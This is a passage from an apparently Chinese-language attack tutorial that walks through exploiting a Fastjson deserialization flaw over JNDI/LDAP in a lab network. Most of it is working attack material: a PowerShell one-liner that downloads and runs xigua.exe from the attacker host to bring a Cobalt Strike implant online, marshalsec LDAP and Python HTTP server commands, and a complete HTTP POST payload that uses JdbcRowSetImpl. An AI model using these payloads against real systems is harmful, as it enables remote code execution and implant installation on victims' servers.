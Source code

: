 创建`evilclass.java`文件（名字任意，不过要和内容中的类名一致）

```
powershell -Command (new-object System.Net.WebClient).DownloadFile('http://192.168.112.146/xigua.exe','xigua.exe');start-process xigua.exe
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3icfiaC2TEFqM7T31ciavUJGUaTOwib926HPlnW5qVjibUbpdtYfY26ctuycrbcJQfwOw475iajbTPsmSng/640?wx_fmt=jpeg)

这里的 powershell 命令意思是到 192.168.112.146 主机上下载 xigua.exe 文件并以 xigua.exe 文件名存储并执行此文件，执行命令后，不出意外的话将直接上线 CS

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://192.168.112.146/#evilclass" 9999
```

使用 javac 编译，无报错即代表成功

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3icfiaC2TEFqM7T31ciavUJGUa5bOmbUP3VR2iaSib6ybSUAMPFpqYWnSjl36vVyibXcyFNJ692xhrGBWYQ/640?wx_fmt=jpeg)

**2）开启 LDAP 服务和 python 的 HTTP 服务**

使用 marshalsec 工具开启 LDAP 服务（这里同开启 RMI 命令类似），开启端口号为 9999

```
python -m SimpleHTTPServer 80
python -m http.server 80    # python3的命令
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3icfiaC2TEFqM7T31ciavUJGUaTZdmsOtRMTdsxpy2NMT60YI6bX0Fk4oU56QeH98o5xBCaP3X2icG2Gw/640?wx_fmt=jpeg)

开启 python2 简易 http 服务

```
POST /fastjson HTTP/1.1
Host: 192.168.112.140:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 133

{
"@type":"com.sun.rowset.JdbcRowSetImpl",
"dataSourceName":"ldap://192.168.112.146:9999/evilclass",
"autoCommit":true
}
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3icfiaC2TEFqM7T31ciavUJGUaWgiczbICJCxI4BkQ0Krqu7tyEonVj28xQNzDC8vNHd7cKFBGDjM89lQ/640?wx_fmt=jpeg)

**3）启动 Cobalt Strike 及生成木马文件**
